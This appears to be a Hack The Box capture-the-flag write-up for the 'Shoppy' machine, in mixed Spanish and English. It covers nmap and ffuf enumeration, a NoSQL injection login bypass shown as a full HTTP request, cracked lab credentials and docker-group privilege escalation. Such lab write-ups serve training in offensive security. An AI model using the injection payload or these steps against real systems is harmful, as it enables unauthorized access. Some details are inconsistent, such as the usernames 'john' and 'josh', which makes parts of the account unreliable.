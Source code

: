 ```yaml
---
description: Linux · Easy
---
```


# Shoppy

## Reconocimiento

```bash
nmap -sC -sV -oA ./nmap/shoppy 10.10.11.180
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 18:25 EST
Nmap scan report for 10.10.11.180
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds

```

Se descubrió dos puertos el `22/tcp` que por default es SSH y el puerto `80/tcp` que es HTTP,el servidor corre con Nginx 1.23.1.Tambien aparece `shoppy.htb`

Debemos agregar la URL en `/etc/hosts`

## Enumeracion

### Servidor Web

Ahora tenemos que ir al sitio web y enumerar con fuff.

`http://shoppy.htb`.

```bash
 ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://shoppy.htb/FUZZ
```

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 40ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 54ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 59ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 44ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 58ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 40ms]
exports                 [Status: 301, Size: 181, Words: 7, Lines: 11, Duration: 30ms]
favicon.ico             [Status: 200, Size: 213054, Words: 56, Lines: 89, Duration: 32ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 31ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 28ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 43ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 46ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1031 req/sec :: Duration: [0:00:21] :: Errors: 0 ::

```

Se descubrió dos URL interesantes `http://shoppy.htb/login y http://shoppy.htb/exports`

## Acceder

### Acceder como administrador

If we are using a single quote (`'`) in the username field, we receive a `504 Gateway Time-out`. We have our first error message. We need to perform some more enumeration. This part of the machine, was the most confusing part of this box. It took me some time to find out how to get a foothold on this machine.

The error message shows the URL `http://shoppy.htb/login?error=WrongCredentials`

Let’s try various payloads in the login form. After a long time of trying, we are able to find the right payload to bypass the login mechanism through BurpSuite.

```
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login
Upgrade-Insecure-Requests: 1

username=admin'||'1==1//&password=toto

```

After logging in, we are redirected to `http://shoppy.htb/admin`

From this page, we can search for users. We can search for the user `admin`, and received the password for this user account. We’ve tried to crack this password, but it seems it is uncrackable. After filling in the payload `'||'1==1//` in the search bar (payload always trye), it shows all existing user accounts in the databse.

Let’s try to crack the password of the useraccount `john`.

We have found the password `remembermethisway`. With this password I’ve tried to login through SSH with this password, but no luck. After enumerating around, we found an extra sub-domain `http://mattermost.shoppy.htb`, using `ffuf`.

We cannot now login with the user `josh` with the cracked password.

After looking around, we find the credentials for the user account `jaeger` with the password `Sh0ppyBest@pp!`.

## SSH access as jaeger <a href="#ssh-access-as-jaeger" id="ssh-access-as-jaeger"></a>

With this user account, we can access the machine through SSH and grab the user flag.

## Lateral Movement <a href="#lateral-movement" id="lateral-movement"></a>

### Move from jaeger to deploy

This user account has the permission to run `/home/deploy/password-manager` on behalf of the user account `deploy`.

After executing this program, it’s asking for a master password. As we are able to run the program, we can also try to read the program.

It seems that the password is: `Sample`.

## Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

Yes! We have now the credentials for the user account `deploy`. We can switch to this user account and run `linpeas.sh`.

## Exploit docker <a href="#exploit-docker" id="exploit-docker"></a>

The user account `deploy` is in the `docker` group. Through [GTFObins](https://gtfobins.github.io/gtfobins/docker/) we can find the path to privilege escalation.

Thanks for reading this write-up! Did you enjoy reading this write-up? Or learned something from it? Please consider spending a respect point: [https://app.hackthebox.com/profile/224856.com/profile/224856](https://app.hackthebox.com/profile/224856.com/profile/224856). Thanks!
